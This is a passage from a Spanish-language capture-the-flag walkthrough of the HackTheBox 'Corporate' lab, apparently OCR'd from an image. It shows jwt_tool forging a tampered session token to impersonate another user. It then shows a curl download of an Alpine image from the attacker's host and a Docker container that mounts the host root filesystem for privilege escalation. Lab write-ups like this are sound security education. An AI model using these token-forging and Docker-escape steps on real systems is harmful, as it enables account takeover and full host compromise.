 ```bash
[3] surname = "Graham"
[4] email = "Candido.Hackett@corporate.htb"
[5] roles = ['sales']
[6] requireCurrentPassword = False
[7] iat = 1720471677    ==> TIMESTAMP = 2024-07-08 16:47:57 (UTC)
[8] exp = 1731203356    ==> TIMESTAMP = 2024-11-09 21:49:16 (UTC)
[9] *ADD A VALUE*
[10] *DELETE A VALUE*
[11] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_7be519bf31213abef2d6723cc0402148 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTAyNSwibmFtZSI6IkdheWxlI
iwic3VybmFtZSI6IkdyYWhhbSIsImVtYWlsIjoiQ2FuZGlkby5IYWNrZXR0QGNvcnBvcmF0ZS5
odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjpmYWxzZSwia
WF0IjoxNzIwNDcxNjc3LCJleHAiOjE3MzEyMDMzNTZ9.Ghms8OJ38zt4HrYZnB0bQ4qXpQOUFl
Pkns9vVIxnRgc

```

Al colocarnos este token en nuestro navegador y posteriormente cambiar la contraseña a nuestro gusto, tendremos acceso como alguien del grupo ingeniero:

```bash
elwin.jones@corporate-workstation-04:~$ su gayle.graham
Password: 
gayle.graham@corporate-workstation-04:/home/guests/elwin.jones$
```

Ahora simplemente podemos obtener una imagen de Docker como puede bien puede ser la de Alpine, subirla y crear un contenedor que tenga toda la raiz de la workstation montada:

```bash
gayle.graham@corporate-workstation-04:~$ curl -o alpine.tar.gz http://10.
10.14.219:8000/alpine.tar.gz
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current Dload  Upload   Total   Spent    Left  Speed
100 3208k  100 3208k    0     0  38584      0  0:01:25  0:01:25 --:--:-- 
 126k
gayle.graham@corporate-workstation-04:~$ docker image import alpine.tar.gz alpine
sha256:88fcc96b0fc26606cb54849b751f11baf6513b66661d20787698c497b4b2e361
gayle.graham@corporate-workstation-04:~$ docker run -v '/:/mnt' -it alpine ash
/ # cd /mnt
/mnt # ls
bin         home        libx32      opt         sbin        tmp
boot        lib         lost+found  proc        snap        usr
dev         lib32       media       root        srv         var
etc         lib64       mnt         run         sys
```
